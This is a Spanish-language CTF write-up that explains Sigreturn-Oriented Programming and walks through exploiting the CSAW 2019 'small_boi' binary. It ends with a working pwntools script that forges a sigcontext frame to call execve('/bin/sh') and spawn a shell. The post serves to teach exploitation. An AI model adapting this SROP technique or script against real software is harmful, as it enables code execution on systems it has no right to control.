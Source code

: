 ```yaml
---
layout: post
title: Programación Orientada a Sigreturn (SROP) 
author: c4rta
date: 2023-01-09
categories: [Explotacion binaria]
tags: [ROP, SROP]
---
```


Resolucion de un ejercicio aplicando la tecnica SROP, para ejecutar un sigcontext falso y conseguir una shell

## Señales

Las señales son un mecanismo para enviar notificaciones asincrónicas directamente a un proceso o subproceso. Este se utilizan para matar procesos, para decirles que los temporizadores han expirado o para notificar sobre un comportamiento anormal.

### Funcion de las señales

![](/assets/img/srop/se%C3%B1al.webp)

1. Cuando se tiene un proceso previamente creado, lo que se hace primero es que el kernel envia una señal a ese proceso, el proceso se suspende temporalmente y entrara en el kernel

2. Despues, el kernel guarda el contexto de ese proceso y salta al controlador de la señal (este ya debe de estar previamente definido)

3. Cuando se vuelve e pasar el kernel, el controlador de la señal regresa, y el kernel restaura el contexto del proceso

4. Ejecucion del proceso

Del paso 2 al 3 es la clave. SROP abusa de ```sigreturn()``` por que normalmente restaura el contexto del proceso despues de que regresa el controlador de señal, esto funciona mas o menos asi:

El kernel guarda el contexto del proceso en el stack del proceso, luego se usa la direccion de ```rt_sigreturn``` en el top del stack, esta direccion apunta a un fragmento de codigo en el que ```sigreturn()``` llamara a sistema. Despues del paso 3, el RSP o ESP apunta a ```rt_sigreturn``` y ejecuta el ```sigcontext```

### SROP

SROP es una variante de ROP, pero en esta solo se deben de cumplir dos condiciones

1. Un gadget ```syscall; ret```
2. Una manera de poner ```0xf``` en ```RAX``` o ```EAX```

Dos de las formas mas usadas para poner ```0xf``` en ```RAX``` son:

1. Usar ```mov eax, 0xf```
2. Usar ```pop eax; ret```

Ambas son faciles de implementar, ya que meten ```0xf``` en una sola acccion.
Y el ```0xf``` simplemente es el ```syscall ID de rt_sigreturn```.

## Como funciona

Aun que es similar a ROP, no funcionan de la misma forma, SROP funciona poniendo en el call stack un ```sigcontext``` pero falso. y luego sobrescribir el ```RIP``` o ```EIP``` con la direccion de un gadget que permita llamar a ```sigreturn()```, y se apunta a ```sigreturn()``` ya que este permite ejecutar el ```sigcontext```, realmente esto es muy poderoso, ya que con SROP podemos controlar al mismo tiempo todos los valores de los registros. Y cuando digo ```sigcontext```, me refiero a esto:

```c
struct sigcontext_64 {
	__u64				r8;
	__u64				r9;
	__u64				r10;
	__u64				r11;
	__u64				r12;
	__u64				r13;
	__u64				r14;
	__u64				r15;
	__u64				di;
	__u64				si;
	__u64				bp;
	__u64				bx;
	__u64				dx;
	__u64				ax;
	__u64				cx;
	__u64				sp;
	__u64				ip;
	__u64				flags;
	__u16				cs;
	__u16				gs;
	__u16				fs;
	__u16				ss;
	__u64				err;
	__u64				trapno;
	__u64				oldmask;
	__u64				cr2;
	__u64				fpstate;
	__u64				reserved1[8];
};
```
Cuando el atacante crea un ```sigcontext``` falso, puede establecer cualquier valor de cada uno de esos registros

## Explotacion

Para el ejemplo usare un clasico, ```smallboi``` de CSAW 2019

Al ejecutarlo simplemente se queda esperando un input y se cierra, y al tratar de desbordar el buffer vemos que si se puede:

```[1]    423456 segmentation fault (core dumped)  ./small_boi```

Pero tiene NX asi que no podemos ejecutar una shellcode

### Analizandolo

Al materlo al radare, vemos y hacer un ```pdf``` vemos algo como esto:

![](/assets/img/srop/radare1.png)

Esto simplemente es el entry point, y lo unico interesante es que en la direccion ```0x004001b6``` hace un llamado a ```fcn.0040018c```, asi que vamos pa' alla

![](/assets/img/srop/radare2.png)

Este es su codigo, basicamente el binario hacer una syscall de ```read()```, la cual es la funcion que recibe nuestro input, la cual lee ```0x200``` bytes que vienen de ```var_20h```


### Sacando el offset el RIP

Esta es la parte mas sencilla, asi que realmente no requiere mucha explicacion, lo que hice fue:

1. Usando pwndbg genere con ```cyclic 100``` una secuencia de 100 caracteres que le pase como input al programa
2. Usando ```cyclic -l```  y 8 bytes de el RSP obtuve su offset

Y bueno, el offset para llegar al RIP es 40

### Sacando el gadget

El binario apenas si tiene instrucciones y por consiguiente apenas y tendra los gadgets que son usados comunmente jaja, asi que ahora queda mostrar los gadgets usando ```/R``` en radare, a ver que onda.

Despues de ver los gadgets nos encontramos con el que usaremos:

![](/assets/img/srop/radare3.png)

Aqui esta todo lo que ocupamos, este unico gadget hace las dos condiciones que mencion al principio, ya que establece a ```EAX``` el nuemero de la syscall equivalente a ```sigreturn()``` y la invoca. Tambien como mencione antes, en SROP se crear un ```sigcontext``` falso, asi que en esta caso haremos uno falso llamando a ```execve()``` con el arguemento ```/bin/sh``` 

Para sacar ```/bin/sh``` simplemente podemos ```/ /bin/sh``` y vemos que nos arroja algo como esto:

![](/assets/img/srop/radare4.png)

Donde la direccion de ```/bin/sh``` es la que esta seleccionada

## Exploit

Al conseguir todo, nuestro exploit queda asi:

```py
from pwn import *

context.arch = 'amd64'

p = process("./small_boi")

bin_sh = 0x4001ca
sigreturn = 0x400180
syscall = 0x400185

payload = b'A'*40
payload += p64(sigreturn)

frame = SigreturnFrame(kernel='amd64')
frame.rax = 59
frame.rdi = bin_sh
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall

payload += bytes(frame)
p.send(payload)
p.interactive()
```
Y los valores salieron de aca:

![](/assets/img/srop/radare5.png)

Con ```SigreturnFrame``` Podemos crear un ```sigcontext``` falso, donde se establece ```rax``` a 59 (para execve), ```rdi``` a la dirección del ```/bin/sh```, ```rsi``` y ```rdx``` ambos a 0, y ```rip``` hacia la ```syscall```, esto con el fin de que la ```rt_sigreturn``` syscall cambie de contexto usando estos valores del falso ```sigcontext```, llamando así a ```execve``` con ```/bin/sh```. :point_up: 🤓 

Y el ejecutarlo nos da la shell:

![](/assets/img/srop/exploit.png)

Eso ha sido todo, gracias por leer ❤

![](/assets/img/srop/waifu.jpg)


